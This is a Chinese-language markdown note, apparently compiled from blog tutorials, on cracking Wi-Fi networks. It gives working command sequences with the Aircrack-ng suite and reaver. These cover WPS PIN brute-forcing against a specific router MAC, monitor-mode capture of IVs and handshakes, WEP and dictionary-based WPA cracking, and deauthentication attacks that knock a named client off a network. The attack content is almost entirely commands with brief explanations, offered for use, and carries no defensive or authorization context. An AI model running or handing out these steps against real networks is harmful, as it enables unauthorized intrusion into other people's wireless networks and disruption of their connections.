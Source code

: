 # 破解无线

> 参考 http://netsecurity.51cto.com/art/201105/264844_3.htm

* 另一种思路

> 参考 PIN http://www.geekfan.net/7846/

具体的方法 http://xiao106347.blog.163.com/blog/static/21599207820136161132836/

## 怎样的可以pin

`54e.` 的即可

方式:

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n

显示更多信息 

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n

指定特定的pin码

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n -p 40869200

# 查看

当然，通过输入iwconfig查看也是可以滴。这个命令专用于查看无线网卡，不像ifconfig那样查看所有适配器。

    iwconfig 
	
在Linux下，我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

    airmon-ng start wlan0
    
步骤3：探测无线网络，抓取无线数据包。

在激活无线网卡后，我们就可以开启无线数据包抓包工具了，这里我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

不过在正式抓包之前，一般都是先进行预来探测，来获取当前无线网络概况，包括AP的SSID、MAC地址、工作频道、无线客户端MAC及数量等。只需打开一个Shell，输入具体命令如下：

    airodump-ng mon0 
  
参数解释：

mon0为之前已经载入并激活监听模式的无线网卡。如下图8所示。

# 监听

既然我们看到了本次测试要攻击的目标，就是那个SSID名为TP-LINK的无线路由器，接下来输入命令如下：

	airodump-ng --ivs -w longas -c 6 wlan0 

参数解释：

* `--ivs` 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
* `-c` 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
* `-w` 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。



图10

注意：这是因为airodump-ng这款工具为了方便后面破解时候的调用，所以对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推，在进行第二次攻击时，若使用同样文件名longas保存的话，就会生成名为longas-02.ivs的文件，一定要注意哦，别到时候找不到又要怪我没写清楚：）

啊，估计有的朋友们看到这里，又会问在破解的时候可不可以将这些捕获的数据包一起使用呢，当然可以，届时只要在载入文件时使用longas*.cap即可，这里的星号指代所有前缀一致的文件。

在回车后，就可以看到如下图11所示的界面，这表示着无线数据包抓取的开始。


图11

	airodump-ng -c 6  -w <文件名> --ivs mon0


# 破解
破解 web加密,需要iv2万左右

	aircrack-ng  *.ivs 


破解 wpa加密, 一个握手包+海量字典:

	aircrack-ng  -w <字典文件> *.cap 

强制断开

	aireplay-ng -0 1  -a 6C:E8:73:50:85:F0 -c 00:1B:77:BE:19:FC mon0


# 暴力wap的

	airodump-ng -c 6  -w [filename] mon0

或者

	aircrack-ng  -w [字典] *.cap 
